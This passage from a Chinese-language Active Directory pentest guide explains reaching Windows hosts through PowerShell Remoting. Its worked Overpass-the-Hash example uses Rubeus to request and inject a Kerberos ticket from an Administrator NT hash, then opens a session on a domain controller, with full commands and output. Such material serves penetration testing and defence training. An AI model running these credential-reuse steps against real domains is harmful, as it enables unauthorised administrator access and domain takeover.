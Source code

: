 除了 RPC / SMB 之外，连接到 Windows 机器的另一种方法是 Powershell Remoting，它可以让你在远程机器上获得一个 Powershell 会话。

Powershell Remoting 服务的监听端口为 5985，在 Windows Server 机器上默认是启用的。

从 Windows 中，你可以通过 Powershell 中的许多 [CmdLets](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.1) 使用 Powershell Remoting。在 Linux 机器上，你可以使用 [evil-winrm](https://github.com/Hackplayers/evil-winrm)。

和 RPC / SMB 一样，你可以使用密码、NT 哈希或 Kerberos 票据来连接到目标机器。使用 evil-winrm，你可以把它们作为参数传递给应用程序，或者像在 impacket 中那样配置 ccache 文件。如果是 Powershell cmdlets，你可以直接使用密码，但如果你有 Kerberos ticket 或 NT hash，你将需要通过使用 [Rubeus](https://github.com/GhostPack/Rubeus) 或 [mimikatz](https://github.com/gentilkiwi/mimikatz) 注入它们。

> Using Powershell Remoting with Overpass-the-Hash

```
PS C:\&gt; .\Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: b73fdfe10e87b4ca5c0d957f81de6863
[*] Building AS-REQ (w/ preauth) for: 'contoso.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFQjCCBT6gAwIBBaEDAgEWooIETzCCBEthggRHMIIEQ6ADAgEFoQ8bDUNPTlRPU08uTE9DQUyiIjAg
      oAMCAQKhGTAXGwZrcmJ0Z3QbDWNvbnRvc28ubG9jYWyjggQFMIIEAaADAgESoQMCAQKiggPzBIID7xK3
      &lt;!--stripped--&gt;
      ERgPMjAyMTA1MDgwMjQzMjZapxEYDzIwMjEwNTE0MTY0MzI2WqgPGw1DT05UT1NPLkxPQ0FMqSIwIKAD
      AgECoRkwFxsGa3JidGd0Gw1jb250b3NvLmxvY2Fs
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/contoso.local
  ServiceRealm          :  CONTOSO.LOCAL
  UserName              :  Administrator
  UserRealm             :  CONTOSO.LOCAL
  StartTime             :  07/05/2021 18:43:26
  EndTime               :  08/05/2021 04:43:26
  RenewTill             :  14/05/2021 18:43:26
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  95a1NmgYXwOmiyCa3qlplA==

PS C:\&gt; Enter-PSSession -ComputerName dc01
[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
contoso\administrator
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname
dc01
[dc01]:
```
